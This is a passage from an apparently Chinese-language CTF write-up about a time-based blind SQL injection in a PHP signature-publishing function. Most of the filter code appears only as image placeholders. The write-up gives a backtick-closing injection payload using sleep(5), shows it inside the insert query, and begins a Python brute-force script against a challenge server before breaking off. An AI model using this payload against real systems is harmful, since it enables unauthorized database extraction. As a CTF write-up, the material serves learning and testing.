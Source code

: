 ![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

对于password：

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

显然是没办法的

再去看username的过滤

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

基本无解，只能用数字和字母

再去看剩下的两个

发现过滤

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

再看利用点

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

发现调用了sql语句，可能存在注入，但是引号无法利用，但是我们可以知道

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

其中反引号也可以闭合单引号，所以我们可以得到

payload

signature=1`,`123`),((select if((select database()) like 0x25,sleep(5),0)),(select

2),`sky&mood=1

我们将其带入语句中

$db->insert(array('userid','username',' signature=1`,`123`),((select if((select database()) like 0x25,sleep(5),0)),(select

2),`sky ','1'),

'ctf_user_signature',array($this->userid,$this->username,$_POST['signature'],$mood));

发现成功闭合，并且成功延时5s，随机可以写出注入脚本

import requests

import string

import urllib

url = "http://47.97.221.96:23333/index.php?action=publish"

flag = ""

true_flag = ""
